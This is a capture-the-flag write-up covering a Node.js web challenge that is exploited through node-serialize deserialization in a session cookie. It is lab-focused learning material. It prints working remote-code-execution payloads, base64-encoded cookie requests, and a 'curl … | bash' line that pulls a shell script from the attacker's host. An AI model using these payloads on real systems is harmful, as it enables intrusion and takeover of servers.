








<div align="center">


# Jax Sucks alot...

**Difficulty:** Easy    
**Category:** Web

</div>

---




With ping I get spikes in tcpdump:




```bash
sudo tcpdump -i tun0
```



I can only see the HTTP requests, no ICMP. It does not work.

Gobuster:
```bash
gobuster dir -u http://10.80.144.233 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -b "200"
```
All pages were giving response code 200, so blacklist it.

Found nothing...



Could the "window.location.href.." be used?

Is this another deserialization???


https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/
```data
{"rce":"_ $$ND_FUNC$$_function (){\n \t require('child_process').exec('ping 192.168.135.169', function(error,stdout,stderr) { console.log(stdout) }); \n }()"}
```

# The bug
Untrusted data passed into "`unserialize()`" function in node-serialize module can be exploited to achieve arbitrary code execution by passing a serialized JavaScript Object with an Immediately invoked function expression (IIFE),
* The IIFE is in the command?

Comes from this JavaScript Object:
```js
var y = {
	rce : function(){
		require('child_process').exec('ls /', function(error,strdout, stderr))
		},
	}
	var serialize = require('node-serialize');
	console.log("Serialized: \n" + serialize.serialize(y));
```
This gives the following output:

```js
Serialized:
{"rce":"_$$ND_FUNC$$_function (){\n \trequire('child_prcess').exec('ls /', function(error, stdout, stderr) {console.log(stdout) });\n }"}
```
So, a serialization just makes a "series" of the JavaScript object.
* Turns it into json-like format?

The problem with this payload is that the `RCE` will only trigger when the function corresponding to the `rce` property is triggered.

This was solved by using A `IIFE` bracket `()`.
* Placing this after the function body will make the function get invoked when the object is created.
Now:
```js
var y = {
	rce: function(){
		require('child_process').exec('ls /', function(error, stdout,stderr)
		}(),
	}
	var serialize = require('node-serialize');
	console.log("Serialized: \n" + serialize.serialize(y));
```
* The difference is the `IIFFS` bracket.

This led to RCE when the unserialization was run.

Now over to this challenge again:

```js
{"email":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ping 192.168.135.169',function(error, stdout, stderr){ console.log(stdout) });\n }()"}
```


IPV6??

```js
{"email":"_$$ND_FUNC$$_function(){\n \t require('child_process').exec('ping 192.168.135.169', function(error,stdout,stderr) {console.log(stdout) });\n}()"}
```

Okay, the issue was that I tried to supply the cookie in the POST request, when it actually had to go in the GET request:

```http
GET / HTTP/1.1
Host: 10.80.128.56
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: session=eyJlbWFpbCI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpe1xuIFx0IHJlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjKCdwaW5nIDE5Mi4xNjguMTM1LjE2OScsIGZ1bmN0aW9uKGVycm9yLHN0ZG91dCxzdGRlcnIpIHtjb25zb2xlLmxvZyhzdGRvdXQpIH0pO1xufSgpIn0=
```
The cookie is the payload above base64 encoded.




Now
```js
{"email":"_$$ND_FUNC$$_function(){\n \t require('child_process').exec('curl 192.168.135.169:1337/shell.sh | bash', function(error,stdout,stderr) {console.log(stdout) });\n}()"}
```
Gives the HTTP request:

```http
GET / HTTP/1.1
Host: 10.80.128.56
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: session=eyJlbWFpbCI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpe1xuIFx0IHJlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjKCdjdXJsIDE5Mi4xNjguMTM1LjE2OToxMzM3L3NoZWxsLnNoIHwgYmFzaCcsIGZ1bmN0aW9uKGVycm9yLHN0ZG91dCxzdGRlcnIpIHtjb25zb2xlLmxvZyhzdGRvdXQpIH0pO1xufSgpIn0=
```





Nice!!



Free root.

# Flags
```flags
user.txt
> 0ba487<REDACTED>588af217c
root.txt
> 2cd5a9<REDACTED>a98d01d69
```

#AfterReview 
**If there are cookies involved, look at the deserialization
Cookies are often more important than other data sent to the web application**

